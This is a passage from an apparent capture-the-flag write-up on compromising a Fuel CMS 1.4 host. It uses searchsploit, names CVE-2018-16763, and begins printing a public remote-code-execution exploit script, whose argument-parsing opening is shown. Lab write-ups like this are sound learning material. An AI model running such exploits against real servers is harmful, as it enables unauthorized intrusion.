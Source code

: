 I used `searchsploit` to look for vulnerabilities associated with Fuel CMS 1.4.

~~~shell
searchsploit fuel cms 1.4
~~~

![searchsploit](../assets/img/posts/ctf/ignite/searchsploit.png)

Several Remote Code Execution (RCE) scripts were listed. I decided to test a few of them.



### 7. Exploitation Attempts

The first exploit script(47138) I tried failed due to Python versioning issues (usage of python2), use of outdated libraries (usage of urllib.quote instead of urllib.parse.quote) and multiple misconfigurations. I attempted fixing the code, but decided to move onto other available RCE scripts.

Next, I attempted exploitation using a script for **CVE-2018-16763**(50477) downloaded via Exploit DB, which successfully provided remote code execution. This is the full python script:

~~~python
# Exploit Title: Fuel CMS 1.4.1 - Remote Code Execution (3)
# Exploit Author: Padsala Trushal
# Date: 2021-11-03
# Vendor Homepage: https://www.getfuelcms.com/
# Software Link: https://github.com/daylightstudio/FUEL-CMS/releases/tag/1.4.1
# Version: <= 1.4.1
# Tested on: Ubuntu - Apache2 - php5
# CVE : CVE-2018-16763

#!/usr/bin/python3

import requests
from urllib.parse import quote
import argparse
import sys
from colorama import Fore, Style

def get_arguments():
	parser = argparse.ArgumentParser(description='fuel cms fuel CMS 1.4.1 - Remote Code Execution Exploit',usage=f'python3 {sys.argv[0]} -u <url>',epilog=f'EXAMPLE - python3 {sys.argv[0]} -u http://10.10.21.74')

	parser.add_argument('-v','--version',action='version',version='1.2',help='show the version of exploit')

	parser.add_argument('-u','--url',metavar='url',dest='url',help='Enter the url')

	args = parser.parse_args()

	if len(sys.argv) <=2:
		parser.print_usage()
		sys.exit()
	
	return args


~~~